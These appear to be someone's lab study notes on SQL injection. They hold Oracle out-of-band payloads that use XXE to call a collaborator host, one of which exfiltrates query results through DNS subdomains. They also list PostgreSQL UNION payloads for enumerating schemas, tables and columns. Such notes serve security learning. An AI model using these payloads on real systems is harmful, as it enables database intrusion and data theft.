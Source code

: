 But we are going to make it on a different way, on a script on python, the same that we have but modified 




# SQLI out of band interaction #

The burpsuit cheat sheet is interesting on this:

https://portswigger.net/web-security/sql-injection/cheat-sheet

 DNS lookup
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//5hjb74er5tm72am5rbrkj6uude.odiss.eu/">+%25remote%3b]>'),'/l')+FROM+dual--
```

DNS lookup with data exfiltration
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```




# SQL injection with filter bypass via XML encoding #

In this case we need to use burpsuit with  a tool called "Hackventor" and is in burpsuit


owasp zap
could not register with interactsh server: interactsh.com: no address associated with hostname








### Another assets out of scoope ###
---------------------------------------------------------------------
POSTGRESQL

gifts ' union select schema_name , NULL from information_schema.schemata -- - (select dbs) public

gifts' union select table_name, NULL from information_schema.tables  -- -

gifts' union select table_name, NULL from information_schema.tables where table_schema = 'public' -- - (select tables)

gifts' union select column_name, NULL from information_schema.columns where table_schema = 'public'  -- - (see all the columns)
